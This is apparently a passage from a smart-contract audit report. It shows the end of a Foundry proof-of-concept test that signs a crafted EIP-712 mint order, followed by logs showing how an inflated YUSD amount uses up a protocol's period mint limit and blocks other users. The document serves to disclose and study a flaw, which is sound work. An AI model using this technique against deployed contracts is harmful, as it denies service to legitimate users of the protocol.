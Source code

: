 ```solidity

        // Calculate order hash directly
        bytes32 orderHash = keccak256(
            abi.encode(
                keccak256(
                    "Order(uint8 orderType,address userWallet,address collateralAsset,uint256 collateralAmount,uint256 yusdAmount,uint256 slippageAdjustedAmount,uint256 expiry,uint256 nonce,bytes additionalData)"
                ),
                uint8(orderType),
                userWallet,
                collateralAsset,
                collateralAmount,
                yusdAmount,
                slippageAdjustedAmount,
                expiry,
                nonce,
                keccak256(additionalData)
            )
        );

        bytes32 typedDataHash = MessageHashUtils.toTypedDataHash(domainSeparator, orderHash);

        // Sign the typed data hash
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(PRIVATE_KEY, typedDataHash);
        return abi.encodePacked(r, s, v);
    }
}
```

Test results:

```text
[PASS] testMintLimitVulnerability() (gas: 391065)
Logs:
  Period limit: 10000 YUSD
  User1 attempting to mint with inflated YUSD amount...
  USDC spent by user1: 1000
  YUSD received by user1: 1000
  VULNERABILITY FOUND: User2 cannot mint even though User1 only received a fraction of the limit
  User1 inflated amount: 10000 YUSD
  User1 actual received: 1000 YUSD
  User2 requested amount: 1000 YUSD
  Period limit: 10000 YUSD
  Period limit artificially consumed!

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 12.34ms (2.33ms CPU time)
```

The test confirms that:

1. User1 successfully consumed the entire period limit (10,000 YUSD)
2. But only received 1,000 YUSD tokens (corresponding to their collateral)
3. User2's attempt to mint fails with LimitReached() despite sufficient remaining capacity
